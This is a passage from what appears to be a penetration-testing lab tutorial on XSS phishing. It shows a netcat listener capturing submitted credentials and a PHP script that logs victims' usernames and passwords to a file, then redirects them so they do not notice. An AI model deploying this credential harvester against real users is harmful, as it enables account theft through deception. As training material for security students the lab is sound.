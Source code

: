Phishing

```shell-session
AIceBear@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):

Phishing

```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

Code: php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

Phishing

```shell-session
AIceBear@htb[/htb]$ mkdir /tmp/tmpserver
AIceBear@htb[/htb]$ cd /tmp/tmpserver
AIceBear@htb[/htb]$ vi index.php #at this step we wrote our index.php file
AIceBear@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
